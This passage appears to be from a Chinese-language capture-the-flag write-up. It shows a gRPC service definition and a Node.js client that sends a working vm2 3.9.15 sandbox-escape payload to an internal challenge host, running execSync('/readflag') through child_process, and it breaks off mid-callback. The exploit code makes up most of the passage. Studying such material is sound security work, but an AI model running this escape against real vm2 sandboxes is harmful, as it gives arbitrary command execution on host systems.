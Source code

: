 eval.proto

```protobuf
syntax = "proto3";

package helloworld;

service Demo {
  rpc evalTemplate (TemplateRequest) returns (Reply) {}
}

message TemplateRequest {
  string template = 1;
}

message Reply {
  string message = 1;
}
```

package.json 中 vm2 版本为 3.9.15

构造 grpc client 打 vm2 沙箱逃逸

[https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c)

```javascript
const grpc = require('@grpc/grpc-js');
const protoLoader = require('@grpc/proto-loader');

const packageDefinition = protoLoader.loadSync(
  'eval.proto',
  {
    keepCase: true,
    longs: String,
    enums: String,
    defaults: true,
    oneofs: true
  }
);

const protoDescriptor = grpc.loadPackageDefinition(packageDefinition);

const client = new protoDescriptor.helloworld.Demo(
  '172.10.0.6:8082',
  grpc.credentials.createInsecure()
);

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('/readflag').toString();
}
`;

client.evalTemplate({ template: code }, (error, response) => {
    if (error) {
      console.error(error);
```